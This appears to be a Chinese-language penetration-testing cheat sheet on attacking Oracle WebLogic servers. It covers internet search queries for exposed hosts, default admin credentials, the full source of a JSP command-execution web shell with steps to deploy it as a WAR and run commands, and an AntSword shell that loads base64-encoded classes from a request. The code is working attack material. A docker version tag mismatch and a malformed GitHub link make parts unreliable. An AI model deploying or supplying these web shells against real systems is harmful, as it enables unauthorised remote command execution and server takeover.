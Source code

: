 ## Weblogic漏洞发现
- 使用shodan, fofa, zoomeye等工具搜索
	- fofa: `app="BEA-WebLogic-Server" && country!="CN"`
- 默认端口: 7001
- Weblogic漏洞批量扫描工具
	- https://github.com/rabbitmask/WeblogicScan
	- https://github/0xn0ne/weblogicScanner

## Weblogic漏洞环境搭建
https://github.com/vulhub/vulhub/tree/master/weblogic
```
docker pull vulhub/weblogic:10.2.6.0-2017
docker run -dit -p 7001:7001 vulhub/weblogic:10.3.6.0-2017
```

## Weblogic历史漏洞利用
1. Weblogic存在管理后台, 弱口令 `weblogic` / `Oracle@123`
	- 默认口令: https://cirt.net/passwords?criteria=weblogic
> cmd.jsp
```jsp
<%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd); BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s +"\r\n"; } } catch(IOException e) { e.printStackTrace(); } } out.println(output);%>
```
2. 打成war包: `jar -cvf cmd.war cmd.jsp`
3. 上传: 部署>安装>上载文件>部署档案
4. getshell
	- `http://targetIP:7001/cmd/cmd.jsp?cmd=ls`

### 蚁剑getshell脚本
> jsp4ant.jsp
```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
```
